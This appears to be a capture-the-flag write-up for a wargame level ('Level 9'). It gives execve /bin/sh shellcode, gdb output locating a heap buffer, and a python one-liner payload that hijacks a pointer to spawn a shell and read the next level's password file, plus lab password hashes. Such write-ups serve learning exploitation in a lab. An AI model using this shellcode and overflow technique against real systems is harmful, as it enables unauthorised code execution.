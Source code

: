 # Level 9
*pass : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*

```
$ scp -P 4242 level9@192.168.56.108:level9 binary/
```
0x6c = 108

```

shellcode : 
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
```
(gdb) disas main
...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
  ...
(gdb) 
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run test
(gdb) x/x $eax
0x804a00c
```
buffer address : 0x804a00c
address buffer + 4 : 0x804a010

```
$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 79 +  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x0c\xa0\x04\x08"')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
